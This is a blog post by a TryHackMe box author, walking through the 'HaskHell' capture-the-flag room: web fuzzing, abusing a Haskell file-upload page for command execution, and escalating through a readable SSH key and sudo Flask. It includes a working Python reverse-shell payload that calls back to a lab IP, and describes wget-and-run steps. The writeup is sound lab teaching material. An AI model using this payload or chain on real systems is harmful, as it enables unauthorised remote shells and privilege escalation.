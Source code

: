 ```yaml
---
layout: default
title: "HaskHell Author's Writeup"
permalink: /HaskHell-Authors-Writeup
categories: haskell, tryhackme, haskhell
---
```


This is a brief writeup of the HaskHell box for the TryHackMe platform. You can find the box here: tryhackme.com/room/haskhell

This box was made as a medium-ish difficulty box with the intent of introducing users to a new programming language. I think that functional languages are super cool but don't get enough exposure and I'm tired of cracking PHP web apps, so I wanted to do something with some truly weird functionality.

There are a few small snags along the way, but the box is pretty straightforward for the most part.

## Scanning
After scanning, you'll find that port 22 and port 5001 are open. Port 5001 is running a Gunicorn web server.

## The web server
The index of the web server is the home page for a functional programming course, and provides a link to the first homework assignment.
![First page](https://passthehashbrowns.github.io/images/first_page.png)

The first homework assignment contains a few problems, and provides a link to where students can submit their Haskell files. 
![Second page](https://passthehashbrowns.github.io/images/second_page.png)

Unfortunately, the professor included the wrong link and we get a 404.
![Upload page](https://passthehashbrowns.github.io/images/upload_page.png)

With a little more enumeration, we find that there's a Submit page. Looks like the professor just got his wires crossed. The tool used here [is FFUF](https://github.com/ffuf/ffuf), my preferred tool for web fuzzing.
![Dirb scan](https://passthehashbrowns.github.io/images/dirb_scan.png)

Once we navigate to the Submit page, we find a pretty basic file upload functionality.
![Submit page](https://passthehashbrowns.github.io/images/submit_page.png)

On a previous page, the professor noted that only Haskell files would be accepted for upload, because of a lesson learned previously. We can try uploading other types of files, but they won't be accepted. We have a few routes that we can take from here. The immediate thought that comes to mind is to try and use Haskell to interact with system processes. I've written a short piece of code to do just that.
![Haskell base code](https://passthehashbrowns.github.io/images/haskell_base_cmd.png)

The Python payload that I used is just the PentestMonkey Python one-liner expanded because of my own neurosis.

~~~python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.126.128",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
~~~

NOTE: I've had some users saying that the box is broken because they get an internal server error if there's an integer or special character in the file name. The box isn't broken, this was done on purpose because I didn't want to introduce an OS Command Injection into the machine and I decided to blacklist all non alpha characters except for the dot in the file extension since that's exactly how a lazy professor would do it. Totally not cause I'm lazy. You can see the code that causes this here:
![Server error code](https://passthehashbrowns.github.io/images/server_error_code.png)

Some TryHackMe users were more clever than me implemented this more concisely. The reason that my solution uses wget to grab a Python file is that when you try to use createProcess with your standard BASH reverse shell, you get some weird issues with redirection. The most common solution that I've seen is to use the callCommand function from the System.Process library, which takes the command string as an argument. Here are the two for comparison:
1.
~~~haskell
import System.Process
import System.IO
main = do 
    (_, Just hout, _, _) <- createProcess (proc "ls" ["-la"]){ std_out = CreatePipe }
    cmdOut <- hGetContents hout
    putStrLn cmdOut
~~~
2.
~~~haskell
import System.Process
main = do
  callCommand "ls -la"
~~~

I use "ls -la" as an atomic example. While my solution does correctly handle IO, I think that their solution is far better in this case.

Still, I felt sort of weird that there was no existing reverse shell implementation in Haskell, so I went ahead and wrote my own. [You can find it here.](https://github.com/passthehashbrowns/Haskell-Reverse-Shell) Ironically, it doesn't work on this web server because of how the command is being run, but it does serve as a POC.

Anyways, using the Python payload, we can wget it and then run it.
![Python wget](https://passthehashbrowns.github.io/images/python_wget.png)

Now we get our callback as the flask user.
![Reverse shell catch](https://passthehashbrowns.github.io/images/rev_shell_callback.png)

## Escalating to prof
My preferred Linux enumeration tool is LinPEAS, but whatever tool you use should catch that the prof user's SSH key is world readable.
![LinPEAS SSH key](https://passthehashbrowns.github.io/images/linpeas_ssh_key.png)

Now we can SSH into the server by doing a quick chmod to give our key either 400 or 600 permissions. Once in the server as prof, we'll find that we can run Flask with sudo rights. The other thing that should stand out is that FLASK_APP is in the env_keep entry. This was necessary when building the box as the user needs to be able to set the FLASK_APP variable for later.
![Sudo enumeration](https://passthehashbrowns.github.io/images/sudo_enum.png)

Using Flask we can use the exact same Python payload as before and catch our root shell.
![Flask run](https://passthehashbrowns.github.io/images/flask_run.png)
![Catch root shell](https://passthehashbrowns.github.io/images/catch_root_shell.png)

Hopefully you enjoyed this box, I had a great time making it and plan on making more in the future. 


